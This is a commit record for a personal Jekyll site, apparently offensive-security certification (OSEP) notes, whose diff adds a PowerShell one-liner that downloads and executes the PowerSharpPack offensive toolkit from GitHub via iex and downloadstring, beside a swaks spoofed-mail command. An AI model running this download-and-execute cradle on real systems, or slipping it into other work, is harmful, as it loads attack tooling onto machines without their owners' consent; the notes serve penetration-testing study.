

Before and after one commit to wez3/wez3.github.io, a Jekyll site: the page built from osep.md, in a window 1280 px wide and 900 px high, scrolled down 21338 px. Shown: the top 896 px of the window, without its empty margins (211-1068 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 22132 px from its top, so only the background shows below that.

Commit message:
Update osep.md

````diff
--- a/osep.md
+++ b/osep.md
@@ -968,3 +968,8 @@ Send mail with swaks
 ```shell
 swaks --to w@domain.com --server 192.168.1.1 --body "Hello" --header "Subject: Issues"  --from hacker@domain.com
 ```
+
+PowerSharpPack
+```
+iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')
+```
````
